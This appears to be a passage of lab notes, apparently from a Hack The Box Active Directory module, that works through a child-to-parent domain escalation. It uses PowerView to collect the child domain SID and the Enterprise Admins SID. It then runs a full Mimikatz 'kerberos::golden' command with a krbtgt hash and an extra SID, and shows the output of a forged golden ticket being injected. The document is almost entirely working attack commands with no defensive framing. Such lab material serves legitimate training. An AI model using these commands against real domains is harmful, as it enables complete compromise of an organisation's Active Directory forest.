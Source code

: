 ## Get SID for child domain - PowerView
```bash
PS C:\htb> Get-DomainSID

S-1-5-21-2806153819-209893948-922872689

```

## Get SID for Enterprise Admins group - PowerView

```bash

PS C:\htb> Get-DomainGroup -Domain INLANEFREIGHT.LOCAL -Identity "Enterprise Admins" | select distinguishedname,objectsid

  

distinguishedname                                       objectsid                                    

-----------------                                       ---------                                    

CN=Enterprise Admins,CN=Users,DC=INLANEFREIGHT,DC=LOCAL S-1-5-21-3842939050-3880317879-2865463114-519

```

## Creating a Golden Ticket with Mimikatz  


```bash

PS C:\htb> mimikatz.exe

mimikatz # kerberos::golden /user:hacker /domain:LOGISTICS.INLANEFREIGHT.LOCAL /sid:S-1-5-21-2806153819-209893948-922872689 /krbtgt:9d765b482771505cbe97411065964d5f /sids:S-1-5-21-3842939050-3880317879-2865463114-519 /ptt

User      : hacker
Domain    : LOGISTICS.INLANEFREIGHT.LOCAL (LOGISTICS)
SID       : S-1-5-21-2806153819-209893948-922872689
User Id   : 500
Groups Id : *513 512 520 518 519
Extra SIDs: S-1-5-21-3842939050-3880317879-2865463114-519 ;
ServiceKey: 9d765b482771505cbe97411065964d5f - rc4_hmac_nt
Lifetime  : 3/28/2022 7:59:50 PM ; 3/25/2032 7:59:50 PM ; 3/25/2032 7:59:50 PM

-> Ticket : ** Pass The Ticket **

 * PAC generated
 * PAC signed
 * EncTicketPart generated
 * EncTicketPart encrypted
 * KrbCred generated

Golden ticket for 'hacker @ LOGISTICS.INLANEFREIGHT.LOCAL' successfully submitted for current session

```

